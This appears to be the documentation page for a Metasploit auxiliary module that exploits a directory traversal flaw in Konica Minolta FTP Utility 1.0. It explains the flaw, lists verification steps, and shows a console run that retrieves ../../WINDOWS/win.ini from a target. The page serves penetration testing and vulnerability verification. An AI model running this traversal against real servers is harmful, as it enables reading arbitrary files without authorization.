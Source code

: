 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in Konica Minolta FTP Utility 1.0. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Link to Konica Minolta FTP Utility 1.00 software download [Exploit-DB](https://www.exploit-db.com/apps/6388a2ae7dd2965225b3c8fad62f2b3b-ftpu_10.zip)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/konica_ftp_traversal`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

### Konica Minolta FTP Utility 1.00 on Windows 7 (X64)

  ```
  msf > use modules/auxiliary/scanner/ftp/konica_ftp_traversal
  msf auxiliary(scanner/ftp/konica_ftp_traversal) > set RHOSTS 1.1.1.1
    RHOSTS => 1.1.1.1
  set PATH ../../WINDOWS/win.ini
    PATH => ../../WINDOWS/win.ini
  msf auxiliary(scanner/ftp/konica_ftp_traversal) > run
  [+] 1.1.1.1:21      - Stored ../../WINDOWS/win.ini to /root/.msf4/loot/20191122042114_default_1.1.1.1_konica.ftp.data_003802.ini
  [*] 1.1.1.1:21      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
